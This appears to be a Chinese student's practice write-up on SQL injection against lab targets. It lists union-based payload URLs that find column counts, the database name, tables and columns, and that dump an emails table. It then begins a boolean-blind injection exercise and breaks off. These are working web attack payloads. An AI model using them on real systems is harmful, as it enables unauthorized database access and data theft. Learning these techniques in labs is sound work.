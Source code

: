 发现``3``是正常的,而``4``报错

- 开始尝试

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,3--+
```

![image-20240822184809338](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822184809338.png)

- 查看当前``数据库名``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,database(),3--+
```

![image-20240822184940525](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822184940525.png)

- 查看``表名``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```

![image-20240822191006108](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822191006108.png)

- 查看``emails表``中的字段名

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' and table_schema='security'--+
```

![image-20240822191229453](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822191229453.png)

- 查看``所有数据``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(id,0x3a,email_id) from security.emails
```

![image-20240822191434561](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822191434561.png)

------

### 练习3

- 目标url:http://1.14.28.17:45257/get.php?id=1
- 这关判断正确了就会显示``you are in....``截图我就不展示了
- 判断当前``数据库表的个数`` -->4

```sql
http://1.14.28.17:45257/get.php?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

- 获取第一个``表名长度``-->6
